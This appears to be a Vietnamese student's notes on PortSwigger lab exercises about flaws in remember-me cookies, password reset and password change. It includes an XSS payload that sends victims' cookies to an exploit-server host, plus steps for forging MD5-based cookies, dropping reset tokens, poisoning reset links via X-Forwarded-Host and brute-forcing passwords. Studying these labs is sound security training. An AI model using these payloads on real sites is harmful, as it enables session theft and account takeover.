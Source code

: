 # Vulnerabilities in other authentication mechanisms
Ngoài chức năng đăng nhập cơ bản, hầu hết các trang web đều cung cấp chức năng bổ sung để cho phép người dùng quản lý tài khoản của họ. Ví dụ: người dùng thường có thể thay đổi mật khẩu hoặc đặt lại mật khẩu khi quên. Các cơ chế này cũng có thể tạo ra các lỗ hổng mà kẻ tấn công có thể khai thác.\
Các trang web thường cẩn thận để tránh các lỗ hổng phổ biến trong trang đăng nhập của họ. Nhưng thật dễ dàng để bỏ qua thực tế là bạn cần thực hiện các bước tương tự để đảm bảo rằng chức năng liên quan cũng mạnh mẽ như nhau. Điều này đặc biệt quan trọng trong trường hợp kẻ tấn công có thể tạo tài khoản của riêng mình và do đó có thể dễ dàng truy cập để nghiên cứu các trang bổ sung này.
## Keeping users logged in
Một tính năng phổ biến là tùy chọn duy trì trạng thái đăng nhập ngay cả sau khi đóng phiên trình duyệt. Đây thường là một hộp kiểm đơn giản được gắn nhãn như "**Remember me**" hoặc "**Keep me logged in**".\
Chức năng này thường được triển khai bằng cách tạo ra một loại mã token "remember me", sau đó được lưu trữ trong một cookie liên tục. Vì việc sở hữu cookie này một cách hiệu quả cho phép bạn bỏ qua toàn bộ quá trình đăng nhập, cách tốt nhất là không nên đoán cookie này. Tuy nhiên, một số trang web tạo cookie này dựa trên sự kết hợp có thể dự đoán được của các giá trị tĩnh, chẳng hạn như tên người dùng và dấu thời gian. Một số thậm chí còn sử dụng mật khẩu như một phần của cookie. Cách tiếp cận này đặc biệt nguy hiểm nếu kẻ tấn công có thể tạo tài khoản của riêng mình vì chúng có thể nghiên cứu cookie của riêng mình và có khả năng suy ra cách nó được tạo ra. Sau khi tìm ra công thức, họ có thể cố gắng ép buộc cookie của người dùng khác để có quyền truy cập vào tài khoản của họ.\
Một số trang web cho rằng nếu cookie được mã hóa theo cách nào đó thì sẽ không thể đoán được ngay cả khi nó sử dụng các giá trị tĩnh. Mặc dù điều này có thể đúng nếu được thực hiện chính xác, nhưng việc "mã hóa" cookie một cách ngây thơ bằng cách sử dụng mã hóa hai chiều đơn giản như Base64 không mang lại bất kỳ sự bảo vệ nào. Ngay cả việc sử dụng mã hóa thích hợp với hàm băm một chiều cũng không hoàn toàn chống đạn. Nếu kẻ tấn công có thể dễ dàng xác định thuật toán băm và không sử dụng muối, thì chúng có khả năng tấn công cookie bằng cách băm danh sách từ của chúng. Phương pháp này có thể được sử dụng để vượt qua giới hạn số lần đăng nhập nếu giới hạn tương tự không được áp dụng cho việc đoán cookie.

Ví dụ: https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie

Khi đăng nhập với chế độ `stay-logged-in` chúng tạo ra 1 cookie để duy trì đăng nhập: 
![alt text](image-21.png)\
![alt text](image-22.png)

Base64 decode thì ta được:
![alt text](image-23.png)

Nhận thấy độ dài đoạn hash sau `:` trùng với MD5 ta check thử thì thấy đáp án là `MD5(password) `
![alt text](image-24.png)

Từ đây ta brute-force cho `carlos` với cookie `stay-logged-in` dạng base64(carlos:MD5(password)):
![alt text](image-25.png)\
![alt text](image-26.png)

Ngay cả khi kẻ tấn công không thể tạo tài khoản của riêng mình, chúng vẫn có thể khai thác lỗ hổng này. Bằng cách sử dụng các kỹ thuật thông thường, chẳng hạn như XSS, kẻ tấn công có thể đánh cắp cookie "remember me" của người dùng khác và suy ra cách tạo cookie từ đó. Nếu trang web được xây dựng bằng khung nguồn mở thì các chi tiết chính về cấu trúc cookie thậm chí có thể được ghi lại công khai.\
Trong một số trường hợp hiếm hoi, có thể lấy được mật khẩu thực của người dùng ở dạng văn bản rõ ràng từ cookie, ngay cả khi nó được băm. Các phiên bản băm của danh sách mật khẩu phổ biến có sẵn trực tuyến, vì vậy nếu mật khẩu của người dùng xuất hiện trong một trong các danh sách này, việc giải mã hàm băm đôi khi có thể đơn giản như chỉ cần dán hàm băm vào công cụ tìm kiếm. Điều này chứng tỏ tầm quan trọng của muối trong việc mã hóa hiệu quả.

Ví dụ: https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking

Ta thấy cookie để xác nhận và duy trì đăng nhập có dạng: `username:hash(password)` bây giờ ta sẽ đi đánh cắp cookie nạn nhân bằng XSS:\
`<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`

Theo dõi log ta thấy: 
![alt text](image-31.png)

![alt text](image-32.png)

Predict đoạn hash: 
![alt text](image-33.png)

Bây giờ ta đã có thể đăng nhập với `carlos`.
## Resetting user passwords
Trong thực tế, một số người dùng sẽ quên mật khẩu của họ, vì vậy thông thường sẽ có cách để họ đặt lại mật khẩu. Vì xác thực dựa trên mật khẩu thông thường rõ ràng là không thể thực hiện được trong trường hợp này nên các trang web phải dựa vào các phương pháp thay thế để đảm bảo rằng người dùng thực đang đặt lại mật khẩu của chính họ. Vì lý do này, chức năng đặt lại mật khẩu vốn rất nguy hiểm và cần phải được thực hiện một cách an toàn.\
Có một số cách khác nhau mà tính năng này thường được triển khai với mức độ dễ bị tổn thương khác nhau.
### Sending passwords by email
Cần phải nói rằng việc gửi cho người dùng mật khẩu hiện tại của họ sẽ không bao giờ thực hiện được nếu trang web xử lý mật khẩu một cách an toàn ngay từ đầu. Thay vào đó, một số trang web tạo mật khẩu mới và gửi mật khẩu này cho người dùng qua email.\
Nói chung, cần tránh gửi mật khẩu liên tục qua các kênh không an toàn. Trong trường hợp này, tính bảo mật dựa vào việc mật khẩu được tạo sẽ hết hạn sau **một khoảng thời gian rất ngắn hoặc người dùng thay đổi lại mật khẩu của họ ngay lập tức**. Mặt khác, cách tiếp cận này rất dễ bị tấn công bởi kẻ trung gian.\
Email thường không được coi là an toàn vì hộp thư đến vừa cố định vừa không thực sự được thiết kế để lưu trữ an toàn thông tin bí mật. Nhiều người dùng cũng tự động đồng bộ hóa hộp thư đến của họ giữa nhiều thiết bị trên các kênh không an toàn.

### Resetting passwords using a URL
Một phương pháp đặt lại mật khẩu mạnh mẽ hơn là gửi một URL duy nhất tới người dùng để đưa họ đến trang đặt lại mật khẩu. Việc triển khai phương pháp này kém an toàn hơn sử dụng URL có tham số dễ đoán để xác định tài khoản nào đang được đặt lại, ví dụ:\
`http://vulnerable-website.com/reset-password?user=victim-user`\
Trong ví dụ này, kẻ tấn công có thể thay đổi tham số `user` để chỉ bất kỳ tên người dùng nào mà chúng đã xác định. Sau đó, họ sẽ được đưa thẳng đến một trang nơi họ có thể đặt mật khẩu mới cho người dùng tùy ý này.\
Cách triển khai tốt hơn cho quy trình này là tạo mã thông báo có entropy cao, khó đoán và tạo URL đặt lại dựa trên đó. Trong trường hợp tốt nhất, URL này sẽ không cung cấp gợi ý nào về mật khẩu của người dùng nào đang được đặt lại.\
`http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8`\
Khi người dùng truy cập URL này, hệ thống sẽ kiểm tra xem token này có tồn tại ở back-end hay không và nếu có thì mật khẩu của người dùng nào sẽ được đặt lại. Token này sẽ hết hạn sau một khoảng thời gian ngắn và bị hủy ngay sau khi mật khẩu được đặt lại.\
Tuy nhiên, một số trang web không xác thực lại token khi biểu mẫu đặt lại được gửi. Trong trường hợp này, kẻ tấn công có thể chỉ cần truy cập vào biểu mẫu đặt lại từ tài khoản của chính chúng, xóa mã thông báo và tận dụng trang này để đặt lại mật khẩu của người dùng tùy ý.

ví dụ: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic

Reset password với username `wiener` sẽ có 1 mail gửi về, theo đường link trong mail ta sẽ đến được trang thay đổi mật khẩu:
`https://0ad600c804b2682381acac3300070011.web-security-academy.net/forgot-password?temp-forgot-password-token=u0rvp7w75mrk1h6ca5z025mg60lq1ixh`\
Chú ý đến đoạn `u0rvp7w75mrk1h6ca5z025mg60lq1ixh`, ta nghĩ đến việc đoán đoạn token này sẽ khác với mỗi user và cần xem nó có logic gì để sinh ra ko. Nhưng không đem lại kết quả, ta sẽ thử tiếp để thay đổi mật khẩu: 
![alt text](image-27.png)

Ở đây ta thấy, việc có cả username và password trong POST giúp ta có thể kiểm soát được, nhưng việc có token ngẫu nhiên kia là vấn đề, ta sẽ thử xóa đoạn token đó đi và chỉ để username và password xem sao:
![alt text](image-28.png)

Vẫn thành công, vậy giờ ta sẽ thử với `carlos`:
- Nhập quên mật khẩu với `carlos` để đảm bảo có link gửi về
- Sau đó gửi 1 POST password mới: 
![alt text](image-29.png)

Ok bây giờ đăng nhập `carlos` với password `123`
![alt text](image-30.png)

Nếu URL trong email đặt lại được tạo động thì điều này cũng có thể dễ bị nhiễm độc khi đặt lại mật khẩu. Trong trường hợp này, kẻ tấn công có thể đánh cắp token của người dùng khác và sử dụng nó để thay đổi mật khẩu của họ.

Ví dụ: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware

Read more: https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning

Sau khi điền ở trang Forgot password thì người dùng sẽ nhận được mail:\
![alt text](image-34.png)

Trong mail sẽ có link có gắn thêm token, mục tiêu của ta là lấy được token của `carlos`, đi đến burp suite và chỉnh sửa lại request: 
![alt text](image-35.png)

Ta thêm phần `X-Forwarded-Host` để đánh lừa máy chủ rằng host này là nơi xuất phát:
![alt text](image-37.png)

![alt text](image-38.png)

## Changing user passwords
Thông thường, việc thay đổi mật khẩu bao gồm việc nhập mật khẩu hiện tại và sau đó là mật khẩu mới hai lần. Về cơ bản, các trang này dựa trên cùng một quy trình để kiểm tra xem tên người dùng và mật khẩu hiện tại có khớp với trang đăng nhập thông thường hay không. Do đó, các trang này có thể dễ bị tấn công bởi các kỹ thuật tương tự.\
Chức năng thay đổi mật khẩu có thể đặc biệt nguy hiểm nếu nó cho phép kẻ tấn công truy cập trực tiếp mà không cần đăng nhập với tư cách là người dùng nạn nhân. Ví dụ: nếu tên người dùng được cung cấp trong trường ẩn, kẻ tấn công có thể chỉnh sửa giá trị này trong yêu cầu nhắm mục tiêu người dùng tùy ý. Điều này có khả năng có thể bị khai thác để liệt kê tên người dùng và mật khẩu mạnh mẽ.

Ví dụ: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change

Ở bước change-password ta thấy nếu đổi username và brute-force mật khẩu cũ ta sẽ đổi được mật khẩu mới:\
![alt text](image-39.png)

Chú ý việc, nếu password ko đúng nó sẽ báo password sai, còn nếu password đúng nó sẽ kiểm tra xem 2 mật khẩu mới có khớp ko, vậy nên ta sẽ set 2 mật khẩu mới ko khớp nhau, vì thế khi mật khẩu cũ đúng thì nó sẽ báo lại là mật khẩu mới ko khớp: 
![alt text](image-40.png)

Vì bài này chỉ tìm mật khẩu của Carlos chứ ko phải cố gắng đăng nhập vào carlos nên ko được phép đổi mật khẩu, nếu ta để 2 mk mới trùng nhau thì dù đúng mk cũ nó cũng ko báo thành công!
